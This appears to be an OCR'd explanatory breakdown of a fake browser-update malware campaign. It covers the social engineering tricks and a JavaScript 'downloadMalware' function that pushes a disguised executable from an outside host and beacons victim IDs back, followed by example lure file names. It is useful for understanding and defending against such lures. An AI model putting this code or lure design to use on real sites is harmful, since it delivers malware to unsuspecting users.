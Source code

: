 **Social Engineering Tricks:**
- ✅ Looks official (mimics real browser update UI)
- ✅ Shows "current" vs "latest" version (adds credibility)
- ✅ Uses urgent language ("security reasons", "required")
- ✅ Blocks entire page (user can't ignore it easily)
- ✅ Professional design (matches real Chrome updates)
- ❌ Comes from website, not browser (huge red flag!)

---

### Stage 3: Malware Download

```javascript
function downloadMalware() {
    // Generate unique victim ID
    var victimId = generateUUID();
    
    // Select appropriate payload based on OS
    var payload = selectPayload({
        os: detectOS(),
        browser: detectBrowser(),
        victimId: victimId
    });
    
    // Download malicious file disguised as update
    var link = document.createElement('a');
    link.href = 'https://content-website-analytics.com/download?id=' + victimId;
    link.download = getFileName(); // e.g., "Chrome-Update-119.0.exe"
    link.click();
    
    // Track successful download
    sendBeacon('https://content-website-analytics.com/track', {
        victimId: victimId,
        downloaded: true,
        timestamp: Date.now()
    });
}
```

**Downloaded File Names (Examples):**
```
Chrome-Update-119.0.exe          (Windows)
Firefox-Update-120.0.exe         (Windows)
Safari-Security-Update-17.1.dmg  (macOS)
Chrome-Update-119.0.tar.gz       (Linux - rare)
```

**File Types:**
- **Windows:** `.exe` (executable)
- **macOS:** `.dmg` (disk image) or `.pkg` (installer)
- **Linux:** `.deb`, `.rpm`, or `.tar.gz` (very rare targets)

**What's Inside The Downloaded File:**
